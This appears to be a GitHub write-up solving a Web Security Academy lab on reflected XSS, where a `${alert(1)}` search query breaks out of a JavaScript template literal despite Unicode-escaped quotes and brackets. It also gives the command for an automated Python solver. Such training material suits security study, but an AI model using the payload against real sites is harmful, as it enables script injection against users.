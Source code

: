 # XSS LAB 21 - Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped

## Manual Solution

### 1. Access the Lab.
- Open the Web Security Academy lab environment in your browser.

### 2. Analyze the Vulnerability
- Perform a search with the following query: `' " / \ < >`
- Review the page source and locate the relavent script.
```js
<script>
    var message = `0 search results for '\u0027 \u0022 / \u005c \u003c \u003e'`;
    document.getElementById('searchMessage').innerText = message;
</script>
```
- As seen in the script:
    - `'`,`"`,`\`,`< >` are Unicode-escaped.
    - Used a backtick (`) in the script allowing us to use a template literal.

### 3. Inject the XSS payload
- Perform a search with the following query: `${alert(1)}`
- With this query, the script becomes:
```js
    var message = `0 search results for '${alert(1)}'`;
    document.getElementById('searchMessage').innerText = message;
```
- The alert function is executed because the `${alert(1)}` inside the template literal triggers it
- You can gain more information from `https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Template_literals`


## Automated Solution

### 1. Download the script
### 2. Run the script with the following command:
```sh
python xss_lab_21.py -u <target_url> -p (if you want to use proxy 127.0.0.1:8080)
```